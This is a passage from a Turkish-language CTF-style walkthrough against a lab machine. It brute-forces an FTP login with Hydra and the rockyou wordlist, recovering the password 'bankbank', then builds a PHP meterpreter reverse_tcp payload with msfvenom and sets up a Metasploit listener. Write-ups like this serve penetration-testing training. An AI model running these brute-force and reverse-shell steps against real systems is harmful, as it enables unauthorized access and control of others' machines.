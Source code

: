```sh
<!--also pls update the password for the custom ftp acct once the front end is finished..since it's easy -->

</html>
```
Bingo! Sayfanın en alttaki yorum satırına dikket edelim. ftp kullanıcısının şifresini değiştir diyor. Hydra ile kırmayı deneyelim.

```sh
root@kali:~# hydra -l ftpUserULTRA -P /usr/share/wordlists/rockyou.txt ftp://192.168.171.141 
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-05-17 18:43:44
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://192.168.171.141:21/
[STATUS] 259.00 tries/min, 259 tries in 00:01h, 14344140 to do in 923:03h, 16 active
[STATUS] 261.67 tries/min, 785 tries in 00:03h, 14343614 to do in 913:37h, 16 active
[STATUS] 271.29 tries/min, 1899 tries in 00:07h, 14342500 to do in 881:09h, 16 active
[STATUS] 267.40 tries/min, 4011 tries in 00:15h, 14340388 to do in 893:49h, 16 active
[STATUS] 270.35 tries/min, 8381 tries in 00:31h, 14336018 to do in 883:47h, 16 active
[STATUS] 269.55 tries/min, 12669 tries in 00:47h, 14331730 to do in 886:09h, 16 active
[STATUS] 268.89 tries/min, 16940 tries in 01:03h, 14327459 to do in 888:04h, 16 active
[STATUS] 268.15 tries/min, 21184 tries in 01:19h, 14323215 to do in 890:15h, 16 active
[STATUS] 267.38 tries/min, 25401 tries in 01:35h, 14318998 to do in 892:34h, 16 active
[STATUS] 267.47 tries/min, 29689 tries in 01:51h, 14314710 to do in 891:60h, 16 active
[STATUS] 267.71 tries/min, 33999 tries in 02:07h, 14310400 to do in 890:56h, 16 active
[STATUS] 267.10 tries/min, 38195 tries in 02:23h, 14306204 to do in 892:42h, 16 active
[STATUS] 267.41 tries/min, 42518 tries in 02:39h, 14301881 to do in 891:24h, 16 active
[STATUS] 267.40 tries/min, 46795 tries in 02:55h, 14297604 to do in 891:09h, 16 active
[21][ftp] host: 192.168.171.141   login: ftpUserULTRA   password: bankbank
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-05-17 21:46:14
```
3 saat süren bir bruteforce saldırısından sonra şifreyi elde edebildik. 
ip:`192.168.171.141`
login:`ftpUserULTRA`
password:`bankbank`
Artık sisteme sızabiliriz.


## 2	Sisteme Sızma

İlk olarak bir backdoor oluşturup dinleme noktası yapalım.
```sh
root@kali:~# msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.171.136 lport=1822 -f raw > shell.php5
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1116 bytes
```
 Şimdi dinleme noktası oluşturalım. `msfconsole`'a girip aşağıdaki ayarları yaptım.
 ```sh
 msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.171.136
lhost => 192.168.171.136
msf5 exploit(multi/handler) > set lport 1822
lport => 1822
msf5 exploit(multi/handler) > exploit
 ```